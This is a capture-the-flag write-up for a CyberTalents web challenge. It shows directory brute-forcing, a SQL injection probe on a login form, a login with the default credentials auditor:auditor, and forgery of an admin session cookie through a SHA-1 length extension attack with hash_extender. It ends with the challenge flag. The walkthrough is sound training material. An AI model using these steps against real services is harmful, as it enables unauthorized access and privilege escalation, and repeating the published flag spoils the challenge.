


# Solve space
#### https://cybertalents.com/challenges/web/space


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Check `robots` & `login` endpoints
```bash
curl http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/robots.txt        
User-agent: *
Disallow: /auditor/auditor
                                                                                                                                                 
curl http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/login.php 
<html>
 <form action="" method="post">
    <label for="username">Username</label>
    <input type="text" id="username" name="username" required>
<br>
  <label for="password">Password</label>
  <input type="password" id="password" name="password"  required>
<br>
    <input type="submit" value="Submit">
  </form>
</html>
```
#### Check `/auditor/auditor` endpoint
```bash
curl http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/auditor/auditor
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
```
### SQLI in login 
```http
POST /login.php HTTP/1.1
Host: wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m4m236xeigz01j6zqdkgxu639-web.cybertalentslabs.com/login.php
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

username='&password=
```
No output 

#### Login with credential `auditor:auditor`


```txt
session 757365723d61756469746f7226726f6c653d61756469746f72
signature 9cdc8cbee716e38a1549f52a797fc4466e826097
```
```bash
hURL -x "757365723d61756469746f7226726f6c653d61756469746f72" 
Original HEX      :: 757365723d61756469746f7226726f6c653d61756469746f72
ASCII/RAW DEcoded :: user=auditor&role=auditor
```

```bash
hashid 9cdc8cbee716e38a1549f52a797fc4466e826097          
[+] SHA-1
```
Can't crack the signature

### Manipulate Cookies
edit the cookie to set the role as admin 
```bash
hURL -X "user=admin role=admin"
Original    :: user=admin&role=admin
Hex ENcoded :: 757365723d61646d696e26726f6c653d61646d696e
```
Bad Signature, Don't Try to Manipulate Cookies

### length extension attack
A length extension attack is a type of cryptographic attack that exploits the way some hash functions, particularly hashes (like MD5, **SHA-1**, and SHA-256), process data. It allows an attacker to extend the length of a hashed message and compute a valid hash **without** knowing the original message.

If an attacker knows the hash of a message **(H(M))** *(as we know the sha1 Signature)*, they can compute **H(M || extra_data)** without knowing **M**.
So it enables attackers to create malicious extensions without knowing the original input.

#### Genrate an new Hash and Signature with `hash_extender`
./hash_extender -d 'user=auditor&role=auditor' -s '9cdc8cbee716e38a1549f52a797fc4466e826097' -a 'admin' -f 'sha1' -l 38
Type: sha1
Secret length: 38
New signature: e2467f09b8e23ffee8c16196222dc25995044589
New string: 757365723d61756469746f7226726f6c653d61756469746f7280000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001f861646d696e

Edit the Cookies with the new data and you get the flag


Your Flag is 2fb193b67bf1f7464d88dfe957f73b0a

### Resource
[Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack)
[hash extender](https://github.com/iagox86/hash_extender)

>Find More on ==> github.com/MedhatHassan 
